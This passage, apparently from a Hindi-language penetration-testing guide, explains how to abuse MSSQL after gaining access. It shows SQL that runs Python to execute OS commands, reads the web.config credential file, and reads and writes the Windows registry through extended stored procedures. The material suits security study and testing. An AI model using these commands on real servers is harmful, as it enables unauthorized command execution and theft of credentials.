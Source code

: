MSSQL आपको **Python और/या R स्क्रिप्ट्स** चलाने की अनुमति दे सकता है। ये कोड उस उपयोगकर्ता द्वारा निष्पादित होंगे जो **xp_cmdshell** का उपयोग करके कमांड चलाने वाले उपयोगकर्ता से **भिन्न** होगा।

उदाहरण: **'R'** _"Hellow World!"_ चलाने का प्रयास — **काम नहीं कर रहा**:

![](<../../images/image (393).png>)

कन्फ़िगर किए गए python का उपयोग करके कई कार्य करने का उदाहरण:
```sql
# Print the user being used (and execute commands)
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("getpass").getuser())'
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("whoami"))'
#Open and read a file
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'
#Multiline
EXECUTE sp_execute_external_script @language = N'Python', @script = N'
import sys
print(sys.version)
'
GO
```
### रजिस्ट्री पढ़ें

Microsoft SQL Server कई **extended stored procedures** प्रदान करता है जो आपको केवल नेटवर्क ही नहीं बल्कि फ़ाइल सिस्टम और यहाँ तक कि [**Windows Registry**](https://blog.waynesheffield.com/wayne/archive/2017/08/working-registry-sql-server/) के साथ भी इंटरैक्ट करने की अनुमति देते हैं:

| **सामान्य**                 | **इंस्टेंस-जागरूक**                   |
| --------------------------- | ------------------------------------ |
| sys.xp_regread              | sys.xp_instance_regread              |
| sys.xp_regenumvalues        | sys.xp_instance_regenumvalues        |
| sys.xp_regenumkeys          | sys.xp_instance_regenumkeys          |
| sys.xp_regwrite             | sys.xp_instance_regwrite             |
| sys.xp_regdeletevalue       | sys.xp_instance_regdeletevalue       |
| sys.xp_regdeletekey         | sys.xp_instance_regdeletekey         |
| sys.xp_regaddmultistring    | sys.xp_instance_regaddmultistring    |
| sys.xp_regremovemultistring | sys.xp_instance_regremovemultistring |
```sql
# Example read registry
EXECUTE master.sys.xp_regread 'HKEY_LOCAL_MACHINE', 'Software\Microsoft\Microsoft SQL Server\MSSQL12.SQL2014\SQLServerAgent', 'WorkingDirectory';
# Example write and then read registry
EXECUTE master.sys.xp_instance_regwrite 'HKEY_LOCAL_MACHINE', 'Software\Microsoft\MSSQLSERVER\SQLServerAgent\MyNewKey', 'MyNewValue', 'REG_SZ', 'Now you see me!';
EXECUTE master.sys.xp_instance_regread 'HKEY_LOCAL_MACHINE', 'Software\Microsoft\MSSQLSERVER\SQLServerAgent\MyNewKey', 'MyNewValue';
# Example to check who can use these functions
Use master;
EXEC sp_helprotect 'xp_regread';
EXEC sp_helprotect 'xp_regwrite';
```
अधिक उदाहरणों के लिए [**original source**](https://blog.waynesheffield.com/wayne/archive/2017/08/working-registry-sql-server/) देखें।
